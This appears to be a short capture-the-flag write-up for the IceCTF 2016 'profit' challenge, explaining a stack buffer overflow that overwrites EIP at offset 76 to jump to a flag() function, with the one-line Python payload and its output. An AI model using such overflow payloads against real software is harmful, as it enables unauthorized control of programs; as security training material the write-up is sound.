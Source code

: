 ### Solved by superkojiman

The goal is to call the flag() function at 0x804850b. NX and ASLR are both enabled on the target. I found that EIP could be overwritten at offset 76 in start() when fgets() is called. From there it was just a matter of providing the address of the flag() function:  


```
[ctf-14394@icectf-shell-2016 /home/profit]$ python -c 'print "A"*76 + "\x0b\x85\x04\x08"' | ./profit
Smashing the stack for fun and...?
IceCTF{who_would_have_thunk?}
[1]    26495 done                python -c 'print "A"*76 + "\x0b\x85\x04\x08"' |
       26498 segmentation fault  ./profit
```
